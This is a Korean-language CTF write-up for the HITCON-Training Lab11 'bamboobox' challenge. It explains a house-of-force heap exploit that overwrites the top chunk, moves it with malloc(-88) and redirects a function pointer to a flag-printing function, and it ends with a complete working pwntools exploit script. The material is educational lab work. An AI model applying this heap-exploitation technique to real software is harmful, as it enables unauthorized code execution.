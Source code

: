 ```yaml
---
title: "[HITCON-Training]Lab11"
date: 2019-11-18
ctf: HITCON-Training
layout: post
published : false
---
```


checksec은 그냥 pie빼고 다 걸려있다.

```
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
```

magic함수가 있는데 이거 호출해주면 될거같다.

```c
void __noreturn magic()
{
  int fd; // ST0C_4
  char buf; // [rsp+10h] [rbp-70h]
  unsigned __int64 v2; // [rsp+78h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  fd = open("/home/bamboobox/flag", 0);
  read(fd, &buf, 0x64uLL);
  close(fd);
  printf("%s", &buf);
  exit(0);
}
```

main 함수를 보면 *v3에 `hello_message` *v3[1]에 `goodbye_message` 각각 힙 영역에 저장해둔다. 

처음에 `hello_message` 를 실행해준다. 근데 case 5 보면  `(v3[1])(&buf, &buf);` 이런게 있는데 여기서 함수 포인터를 magic으로 바꿔서 실행해주면 될거다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // [rsp+8h] [rbp-18h]
  char buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v3 = malloc(16uLL);
  *v3 = hello_message;
  v3[1] = goodbye_message;
  (*v3)(16LL, 0LL);
  while ( 1 )
  {
    menu();
    read(0, &buf, 8uLL);
    switch ( atoi(&buf) )
    {
      case 1:
        show_item();
        break;
      case 2:
        add_item();
        break;
      case 3:
        change_item();
        break;
      case 4:
        remove_item();
        break;
      case 5:
        (v3[1])(&buf, &buf);
        exit(0);
        return;
      default:
        puts("invaild choice!!!");
        break;
    }
  }
}
```

house of force 문제다. 익스 시나리오는 아래와 같다.

1. add로 할당

32만큼 할당해줬다.

![](https://user-images.githubusercontent.com/32904385/72174400-058c5400-341d-11ea-8955-d64477b008df.png)

2. top chunk 덮음

edit에서 heap overflow나서 top chunk header랑 size부분 덮어준다. 

![](https://user-images.githubusercontent.com/32904385/72174402-0624ea80-341d-11ea-95a9-35d8a90aa9be.png)

3. add로 main_arena.top 변경

malloc(-88)

![](https://user-images.githubusercontent.com/32904385/72174403-06bd8100-341d-11ea-8a9c-8dbf47979d00.png)

4. add로 `goodbye_message` 함수 포인터 `magic` 으로 덮음

5. 5번 메뉴 호출하면 `(v3[1])(&buf, &buf);` 은 `magic` 함수를 가르키고 있어서 magic함수 호출

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./bamboobox')
p = process('./bamboobox')
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x,y: p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
magic = e.symbols['magic']

def show():
	sla(':','1')

def add(length,name):
	sla(':','2')
	sla(':',str(length))
	sa(':',name)

def edit(index,length,name):
	sla(':','3')
	sla(':',str(index))
	sla(':',str(length))
	sa(':',name)

def remove(index):
	sla(':','4')
	sla(':',str(index))

add(32,'AAAA')
edit(0,48,'B'*40 + p64(0xffffffffffffffff)) # top chunk dup
#raw_input()
add(-88,'BBBB')
add(16, p64(magic)*2)
#raw_input()
sla(':','5')

p.interactive()
```


